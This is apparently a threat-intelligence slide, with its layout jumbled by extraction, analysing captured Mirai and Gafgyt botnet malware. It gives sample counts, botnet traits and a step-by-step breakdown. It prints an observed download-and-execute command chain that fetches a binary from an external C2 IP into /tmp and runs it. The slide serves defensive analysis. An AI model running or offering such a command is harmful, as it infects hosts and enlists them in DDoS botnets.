

Threat Intelligence
Malware Payload Capture & Analysis

Capture Statistics
Sample Captured Command
13 (59%)

Mirai Variants
# Command sequence observed
22

cd /tmp;
7 (32%)
Gafgyt Variants
wget http://45.148.10.194/b;

chmod +x b;
Unique Binaries
2 (9%)
Other/Unknown
./b

Command Analysis

1. cd /tmp
Botnet Characteristics
Targets world-writable directory, typically accessible without elevated privileges

2. wget http://45.148.10.194/b
Mirai Botnet

Downloads malicious binary from remote C2 server (IP geolocation: Russia)
• IoT device targeting
3. chmod +x b
• DDoS attack capabilities
Sets execution permissions on downloaded payload
• Self-propagation via scanning
• Memory-resident (no persistence)
4. ./b
Executes malware, establishing botnet connection and awaiting C2 commands

Gafgyt (Bashlite)

• Linux server targeting
• Multiple DDoS attack types

• Exploit-based propagation
Impact: Converts compromised host into zombie node for Distributed Denial of Service (DDoS) attacks, contributing to botnet swarm capacity.

• Modular architecture